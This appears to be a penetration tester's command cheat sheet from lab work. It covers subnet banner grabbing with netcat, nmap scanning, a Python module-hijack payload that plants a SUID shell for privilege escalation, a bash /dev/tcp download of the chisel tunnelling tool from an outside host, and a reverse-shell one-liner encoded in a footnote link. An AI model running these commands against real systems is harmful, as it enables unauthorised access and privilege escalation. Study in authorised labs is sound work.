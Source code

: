 ### Harvest banners

```bash
for i in {0..255};
	do nc -nvw2 192.168.0.$i [port-range];
	done
```

### Reset terminal line settings

	reset

### Create alias

	alias ll='ls -alF'

### Create variables

	ports=$(nmap -p- --min-rate= 1000 -T4 10.10.10.150 | grep ^[ 0-9 ] | cut -d '/' -f  1  | tr  '\n'  ',' | sed s/,$//)
	
	nmap -sC -sV -p$ports 10.10.10.150 --open

### Preserve SUID on shell invocation

Python first checks for modules in the current working directory, before looking in the other paths. We can attempt to hijack loading of the legitimate call or urllib modules, so that our malicious module is loaded instead. Let's create a urllib.py file in the /home/frank folder with the contents below:

	vi urllib.py

```python
import os
os.system("cp /bin/sh /tmp/sh;chmod u+s /tmp/sh")
```

	/tmp/sh -p	// #

### Transfer file

Transfer chisel to DANTE-WEB-NIX01:

	nc -lvnp 80 < chisel	// in my Dante/www
	bash -c "cat < /dev/tcp/10.10.16.52/80 > chisel"

### Redirect and Pipe

#### Redirect errors to STDERR

	find /etc/ -name shadow

```text
find: ‘/etc/dovecot/private’: Permission denied
/etc/shadow
find: ‘/etc/ssl/private’: Permission denied
find: ‘/etc/polkit-1/localauthority’: Permission denied
```


[^1]: https://explainshell.com/explain?cmd=bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.0.0.1%2F8080+0%3E%261